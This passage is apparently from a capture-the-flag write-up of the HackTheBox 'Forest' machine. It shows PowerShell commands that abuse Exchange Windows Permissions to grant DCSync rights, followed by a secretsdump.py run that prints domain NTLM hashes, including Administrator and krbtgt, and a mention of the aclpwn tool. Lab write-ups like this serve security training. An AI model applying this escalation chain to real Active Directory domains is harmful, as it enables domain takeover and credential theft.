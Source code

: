 If I run that on Forest, it returns without error:

```
*Evil-WinRM* PS C:\> Add-DomainGroupMember -Identity 'Exchange Windows Permissions' -Members svc-alfresco; $username = "htb\svc-alfresco"; $password = "s3rvice"; $secstr = New-Object -TypeName System.Security.SecureString; $password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}; $cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr; Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity 'svc-alfresco' -TargetIdentity 'HTB.LOCAL\Domain Admins' -Rights DCSync

```

And I can see the user in the new group:

```
*Evil-WinRM* PS C:\> net group 'Exchange Windows Permissions'
Group name     Exchange Windows Permissions
Comment        This group contains Exchange servers that run Exchange cmdlets on behalf of users via the management service. Its members have permission to read and modify all Windows accounts and groups. This group should not be deleted.

Members
-------------------------------------------------------------------------------
svc-alfresco             
The command completed successfully.

```

I can also run `secretsdump.py` and get hashes:

```

root@kali# secretsdump.py svc-alfresco:s3rvice@10.10.10.161
Impacket v0.9.19-dev - Copyright 2018 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
...[snip]...
[*] Cleaning up... 

```

### Alternative Tool: Aclpwn

There’s a tool that will automate this exploitation, [aclpwn](https://github.com/fox-it/aclpwn.py). When I run it, I pass it the user I want to start with, and what I want to get (domain access), and it looks for paths, asks me which path to use, and then run it:

